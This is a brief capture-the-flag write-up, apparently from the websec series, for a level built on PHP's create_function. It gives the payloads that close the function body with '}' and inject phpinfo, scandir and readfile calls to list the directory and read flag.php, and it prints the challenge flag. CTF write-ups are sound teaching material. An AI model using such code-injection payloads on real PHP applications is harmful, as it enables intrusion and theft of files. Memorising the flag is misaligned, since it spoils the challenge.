 ### Level15
Googling 'create_function exploit' gives us [this exploit](https://www.exploitalert.com/view-details.html?id=10264), which I initially had trouble using until I figured you could just use `}`. From there, `}phpinfo(); //` works fine.

`}print_r(scandir("./")); //` gives us the info that 'flag.php' is right here.
`}print_r(readfile("flag.php")); //` gives us the flag.

Flag is `WEBSEC{HHVM_was_right_about_not_implementing_eval}`
    
